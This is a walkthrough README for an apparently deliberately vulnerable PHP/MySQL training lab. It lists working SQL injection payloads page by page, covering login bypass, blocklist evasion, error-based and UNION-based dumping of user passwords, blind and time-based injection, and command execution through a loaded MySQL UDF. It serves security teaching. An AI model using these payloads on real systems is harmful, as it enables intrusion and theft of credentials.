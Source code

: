 # Walkthrough document

This document explains the different attacks that can be done on this setup. Use `?debug=true` to see the actual query being executed.

## Sample SQLi

-     ' UNION SELECT * FROM users -- //
-     ' OR 1=1 -- //`

## Registration

Use the `register.php` to create users

## Login bypass attack

Bypassing login using boolean expressions

### `login1.php`

**Attack:** 
   
- `non-existent-user' OR 1=1 -- //`
- `bob' -- //` 

### `login2.php`

**Attack:** 

- `voldemort') -- //`

### `login1-blocklist.php`

With a somewhat comprehensive blocklist, it is harder to perform SQLi.

However, with a payload seen below (or just `a\`), you can cause an error to be thrown.

Depending on the SQL dialect, or using "Fragmented SQL injection", you can circumvent blocklists.

    a'(\

This is a fragmented payload that does NOT WORK, but could under certain conditions.

    test\

    and updatexml(null, concat(0x3a, version() ), null) -- limit 0,1

## Verbose SQL Error based Injection

Forcing error conditions to reveal and extract data

**Page:** `login1.php` 

**Attack:**

- `' or 1 in (select @@version) -- //`
- `' or 1=CAST((select group_concat(table_name) from information_schema.columns) AS SIGNED) -- //`
- `' or 1 in (select password from users where username = 'admin') -- //`


## Extracting data using UNION queries

Using a pre existing SQL select query to fetch additional data from the DB

**Page:** `searchproducts.php` 

**Attack:**

- `' order by 5 -- //`
- `' union select 1,2,3,4,5 -- //`
- `' union select null, null, database(), user(), @@version -- //`
- `' union select null, table_name, column_name, table_schema, null from information_schema.columns -- //`
- `' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //`
- `' union select null, id, username, password, fname from users -- //`

## Second order SQL injection

User input is stored and reused as is in a different function that has no protection

**Page:** `secondorder_register.php`

**Attack:**

```
- ' or 1 in (select @@version) -- //
- ' or 1 in (select password from users where username='admin') -- //
- ' or 1 in (select convert(password,unsigned) from users where username='admin') -- //
- navigate to secondorder_changepass.php
```

## Blind SQL injection

**Page:** `blindsqli.php`

**Attack:**

- `?user=1' and 1=1 -- //`
- `?user=admin' and substring((select table_name from information_schema.columns where column_name = 'password' LIMIT 1),1,1)>'a' -- //` 
- `?user=1' union select 1,2,3,4, if (substring(username,1,1) > 'd', benchmark(100000000, encode('txt','secret')),null) from users where id=1 -- //` 

## OS interaction

**Page:** `os_sqli.php`

**Attack:** 

- Given that we have mounted the `./udf` folder to `/usr/lib/mysql/plugin`, the `lib_mysqludf_sys.so` inside the `./udf` is available to the MySQL instance
- UDF obtained from `https://github.com/sqlmapproject/udfhack/blob/35abeedc6c590d2fc666a64b57aad9cf7944ec7a/linux/lib_mysqludf_sys/lib_mysqludf_sys.so`
- Use the ability to perform stacked queries in `os_sqli.php` to create a UDF function from the `lib_mysqludf_sys.so` library.
- `os_sqli.php?user=qqqq'; create function sys_eval returns string soname 'lib_mysqludf_sys.so';`
- `os_sqli.php?user=qqqq' union select 1,sys_eval('id'),3,4,5 -- //`
- To drop the function and redo the exercise run `os_sqli.php?user=qqqq';drop function sys_eval;`
- As the MySQL instance is running in a separate container than the web application, the `INTO OUTFILE` way of writing a php shell to disk will not work as the shell will be written inside the MySQL container can cannot be accessed from the web application.

## References

- SQL Injection Cheat Sheet - http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
- Various ways of loading a UDF into MySQL - https://osandamalith.com/2018/02/11/mysql-udf-exploitation/